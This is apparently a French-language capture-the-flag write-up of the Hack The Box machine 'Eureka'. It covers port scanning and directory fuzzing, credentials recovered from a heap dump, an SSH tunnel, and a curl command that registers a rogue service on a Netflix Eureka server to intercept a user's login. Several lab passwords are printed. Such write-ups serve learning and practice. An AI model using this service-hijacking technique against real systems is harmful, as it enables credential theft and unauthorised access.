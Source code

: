```yaml
---
title: "Eureka-HTB"
date: 2025-04-29T20:00:00+02:00
draft: false
tags: ["hackthebox", "writeup"]
categories: ["writeup"]
summary: "Difficulte : esay"
showToc: true
tocOpen: true
---
```

# Enumeration 
## Nmap 
# Enumeration

## Nmap
Nous commençons par exécuter une analyse nmap sur la cible : 

![Texte alternatif](/images/20250429111659.png)

Le scan révèle que les ports **22**, **80** et **8761** sont ouverts sur la cible.

En explorant le port **80**, nous avons découvert un site web accessible à l'adresse **furni.htb**.

![Texte alternatif](/images/20250429112028.png)

Afin d’identifier d’éventuelles ressources non listées accessibles sur le serveur web de la cible `http://furni.htb`, un fuzzing de répertoires a été réalisé à l’aide de l’outil `ffuf`. 


```
ffuf  -u http://furni.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
```


Cela m'a permis d’identifier plusieurs sous-domaines associés à la cible. Ces sous-domaines peuvent héberger des fichiers, dossiers ou applications supplémentaires potentiellement intéressants à la suite de l’analyse.

![Texte alternatif](/images/20250429114201.png)

Après avoir téléchargé l'ensemble des fichiers disponibles et entamé leur analyse un par un, j'ai identifié un fichier nommé **`headpdump`**. En examinant son contenu, j'ai recherché la présence éventuelle d'informations sensibles telles que des identifiants ou des mots de passe. Cette inspection m’a permis de mettre en évidence des données potentiellement intéressantes.

![Texte alternatif](/images/20250429115759.png)

password=0sc@r190_S0l!dP@sswd, user=oscar190

http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/!

![Texte alternatif](/images/20250429122014.png)

Oscar parvient à se connecter via SSH, mais j'ai également repéré le service **Eureka**. Afin d'y accéder, je vais configurer une redirection de port pour pouvoir me connecter au port **8761**.


```
ssh -L 8761:localhost:8761 oscar190@10.10.11.66
```


Les identifiants récupérés seront testés sur l’ensemble des interfaces de connexion identifiées précédemment.
login: EurekaSrvr
password: 0scarPWDisTheB3st

![Texte alternatif](/images/20250429122335.png)

Nous allons déployer un service factice basé sur l’exemple "Hacking Netflix Eureka", dans le but de simuler une présence légitime au sein de l’environnement et d’exploiter la confiance accordée aux services enregistrés.


```
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE -H 'Content-Type: application/json' -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "YOURIP",  
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "YOURIP",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": { "$": 8081, "@enabled": "true" },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```


![Texte alternatif](/images/20250429131113.png)

Nous avons réussi à extraire le nom d'utilisateur et le mot de passe associés au service ciblé, ce qui permet une élévation des privilèges ou un accès non autorisé aux ressources internes.


```
username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=JIVbCzoWJkTBdEsVTbZrxfWiTajQj9Lg9FvXWFIcckIGJ5AuQOM_aFknH3DsRigsLJtf88DBYMm1vefNwG7vYGd-SyA1QqhP 
```

!
![Texte alternatif](/images/20250429132310.png)

password : IL!veT0Be&BeT0L0ve

![Texte alternatif](/images/20250429132432.png)

![Texte alternatif](/images/20250429133417.png)

![Texte alternatif](/images/20250429133338.png)

[CyberChef - GCHQ](https://gchq.github.io/CyberChef/)

[Hacking Netflix Eureka - Backbase](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka)
